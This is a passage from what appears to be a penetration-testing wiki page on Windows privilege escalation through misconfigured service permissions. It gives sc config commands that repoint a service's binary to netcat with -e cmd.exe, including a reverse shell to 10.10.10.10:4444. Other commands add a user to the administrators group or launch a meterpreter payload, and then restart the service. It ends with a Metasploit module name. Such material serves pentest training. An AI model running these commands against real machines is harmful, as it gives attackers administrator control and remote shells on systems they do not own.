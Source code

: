 [You can download accesschk.exe for XP for here](https://github.com/ankh2054/windows-pentest/raw/master/Privelege/accesschk-2003-xp.exe)

### Enable service

If you are having this error (for example with SSDPSRV):&#x20;

_System error 1058 has occurred._\
_The service cannot be started, either because it is disabled or because it has no enabled devices associated with it._

You can enable it using

```bash
sc config SSDPSRV start= demand
sc config SSDPSRV obj= ".\LocalSystem" password= ""
```

**Take into account that the service upnphost depends on SSDPSRV to work (for XP SP1)**

**Another workaround** of this problem is running:

```
sc.exe config usosvc start= auto
```

### **Modify service binary path**

If the group "Authenticated users" has **SERVICE\_ALL\_ACCESS** in a service, then it can modify the binary that is being executed by the service. To modify it and execute **nc** you can do:

```bash
sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config <Service_Name> binpath= "net localgroup administrators username /add"
sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"

sc config SSDPSRV binpath= "C:\Documents and Settings\PEPE\meter443.exe"
```

### Restart service

```
wmic service NAMEOFSERVICE call startservice
net stop [service name] && net start [service name]
```

Other Permissions can be used to escalate privileges:\
**SERVICE\_CHANGE\_CONFIG** Can reconfigure the service binary\
**WRITE\_DAC:** Can reconfigure permissions, leading to SERVICE\_CHANGE\_CONFIG\
**WRITE\_OWNER:** Can become owner, reconfigure permissions\
**GENERIC\_WRITE:** Inherits SERVICE\_CHANGE\_CONFIG\
**GENERIC\_ALL:** Inherits SERVICE\_CHANGE\_CONFIG

**To detect and exploit** this vulnerability you can use _exploit/windows/local/service\_permissions_

### Services binaries weak permissions
